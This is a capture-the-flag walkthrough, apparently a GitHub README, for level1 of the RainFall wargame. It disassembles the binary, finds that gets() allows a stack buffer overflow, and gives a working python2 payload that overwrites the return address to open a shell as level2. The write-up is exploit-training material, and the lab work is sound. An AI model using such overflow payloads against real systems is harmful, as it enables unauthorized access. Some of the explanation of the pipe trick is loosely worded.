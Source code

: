 # Walkthrough

"After listing the files in my home directory, I noticed a binary file named 'level1'. I decided to retrieve more information about this file by using the 'objdump' command to extract the functions used in the binary.

```
level1@RainFall:~$ objdump -t ./level1  | grep .text
08048390 l    d  .text 00000000              .text
080483c0 l     F .text 00000000              __do_global_dtors_aux
08048420 l     F .text 00000000              frame_dummy
08048520 l     F .text 00000000              __do_global_ctors_aux
08048510 g     F .text 00000002              __libc_csu_fini
08048512 g     F .text 00000000              .hidden __i686.get_pc_thunk.bx
08048444 g     F .text 0000003c              run
080484a0 g     F .text 00000061              __libc_csu_init
08048390 g     F .text 00000000              _start
08048480 g     F .text 00000017              main
```

Next, I attempted to reverse-engineer the code using gdb.

```
   0x08048480 <+0>: push   ebp
   0x08048481 <+1>: mov    ebp,esp
   0x08048483 <+3>: and    esp,0xfffffff0
   0x08048486 <+6>: sub    esp,0x50
   0x08048489 <+9>: lea    eax,[esp+0x10]
   0x0804848d <+13>: mov    DWORD PTR [esp],eax
   0x08048490 <+16>: call   0x8048340 <gets@plt>
   0x08048495 <+21>: leave  
   0x08048496 <+22>: ret  
```

"After carefully analyzing the code, I discovered a vulnerability in the gets() function. This function does not specify a limit on the amount of data that can be read, which makes it prone to buffer overflow attacks. As a result, it can overwrite other contents of the stack, such as the return value of the main() function.

```
=>   0x804848d <main+13>: mov    DWORD PTR [esp],eax
     0x8048490 <main+16>: call   0x8048340 <gets@plt>
     0x8048495 <main+21>: leave  
     0x8048496 <main+22>: ret    
     0x8048497: nop
┌─────────────────────────────────────────────────────────────────────────────┐
|   0xbffff5e0:   ┌-0xbffff816-┐   0x0000002f     0xbffff63c     0xb7fd0ff4   |
|                 └---  ESP ---┘                                              |
|   0xbffff5f0:   ┌-0x080484a0-┐   0x0804978c     0x00000001     0x08048321   |
|                 └-- Buffer --┘                                              |
|   0xbffff600:     0xb7fd13e4     0x00000016     0x0804978c     0x080484c1   |
|                                                                             |
|   0xbffff610:     0xffffffff     0xb7e5edc6     0xb7fd0ff4     0xb7e5ee55   |
|                                                                             |
|   0xbffff620:     0xb7fed280     0x00000000     0x080484a9     0xb7fd0ff4   |
|                                                                             |
|   0xbffff630:     0x080484a0     0x00000000   ┌-0x00000000-┐ ┌-0xb7e454d3-┐ |
|                                               └---  EBP ---┘ └-   Return  ┘ |
|   0xbffff640:     0x00000001     0xbffff6d4     0xbffff6dc     0xb7fdc858   |
└─────────────────────────────────────────────────────────────────────────────┘ 
    esp            0xbffff5e0 0xbffff5e0
    ebp            0xbffff638 0xbffff638
    eax            0xbffff5f0 -1073744400
```

I realized that I could exploit this vulnerability to change the return value of the main() function to point to the run() function. Once this is done, I could execute the /bin/sh command by using the system() function. This would allow me to gain unauthorized access to the system and potentially perform malicious actions."

Before proceeding, it is necessary to calculate the offset between the address of the buffer and the address of the $ebp register.
```
>>> 0xbffff638 - 0xbffff5f0
72 // and add 4 to pass the $ebp 
```
Since the return address of the function is located at $ebp + 4, we can fill the buffer with random data until we reach the address of $ebp. Once we have reached this point, we can change the value located at $ebp + 4 to the address of the run() function. By doing this, we can ensure that the program returns to the run() function after the main() function has executed.

To accomplish this task, I created a string using `Python`:
```
level1@RainFall:~$ python2 -c 'print("A" * 76 + "\x08\x04\x84\x44"[::-1])' > /tmp/flag

=> 0x8048495 <main+21>:	leave  
   0x8048496 <main+22>:	ret    
   0x8048497:	nop
   0x8048498:	nop
   0x8048499:	nop

0xbffff5e0:	0xbffff5f0	0x0000002f	0xbffff63c	0xb7fd0ff4
0xbffff5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff600:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff610:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff620:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff630:	0x41414141	0x41414141	0x41414141	0x08048444
0xbffff640:	0x00000000	0xbffff6d4	0xbffff6dc	0xb7fdc858

esp            0xbffff5e0	0xbffff5e0
ebp            0xbffff638	0xbffff638
eax            0xbffff5f0	-1073744400
```

After generating the string, I used it directly with the level1 binary. By passing this string as input to the binary, the buffer overflow vulnerability was exploited, and the return address of the function was overwritten with the address of the run() function.

```
level1@RainFall:~$ python2 -c 'print("A" * 76 + "\x08\x04\x84\x44"[::-1])' > /tmp/flag
level1@RainFall:~$ cat /tmp/flag - | ./level1 
Good... Wait what?
whoami
level2
cd ..
cd level2
ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
``` 

I used the command `cat /tmp/flag - | ./level1` to execute the level1 binary and retrieve the contents of the flag file. The - symbol was added to keep the pipe open, as the level1 program takes its input from the output of the previous command in the pipeline. Without the dash, the input would be closed once the level1 program finished executing, preventing further input. By using the dash, the cat command continues to read from the input after reading the contents of the flag file.